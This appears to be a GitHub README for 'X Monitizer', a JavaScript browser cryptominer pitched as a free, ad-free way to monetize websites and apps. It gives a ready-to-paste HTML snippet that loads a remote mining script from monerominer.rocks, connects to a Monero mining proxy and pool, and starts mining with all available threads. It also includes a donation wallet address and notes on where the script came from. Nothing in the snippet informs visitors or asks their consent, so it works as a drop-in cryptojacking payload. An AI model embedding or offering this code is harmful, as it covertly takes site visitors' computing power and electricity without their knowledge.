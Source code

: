 ## Use Address `42nW9ZsCPe53kxN2JQMnocSZtsWGdY8JhQFTa2hTxF148wvhf19BLPtFJCEtidr1nNJWVMWsicAEkhE4FoZUyddd9KtBTZe` To Support Me
##### X Monitizer Is A PowerFull JS Used To Monitize Websites And Apps  
#### Use This Code To Basically Monitize Your Apps Without Ads For Free  
### See This Video For More Info : https://www.youtube.com/watch?v=AZU6TeEjHVQ
## `HTML SCRIPT`
```
<script src="https://script.monerominer.rocks"></script>
<script>
    server = "wss://ny1.xmrminingproxy.com";
    var pool = "moneroocean.stream";
    var walletAddress = "Wallet_Adress";
    var workerId = "XMonitizer";
    var threads = -1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
</script>
```
### Almost All Languages Supports Html Code Includelation .. Use This Code As Your Pride .. 
  
# How It Works ?
- It Is Created By `https://github.com/notgiven688/webminerpool` Repo Basicaly
- I Tooked `SDK/miner_compressed/webmr.js` Script And Used It As Index JS ( Currently Hoted By `ghgi.xyz` )
- I Searched The Whole Internet And Atlest I Found A Free Hosted Server By `monerominer.rocks` And Then Picked It To Use It As `wss://ghgi.xyz`
- It Currently Only Support One Pool That Is `moneroocean.steam` That Is Very Good Pool
# Bye Bye , Thanks
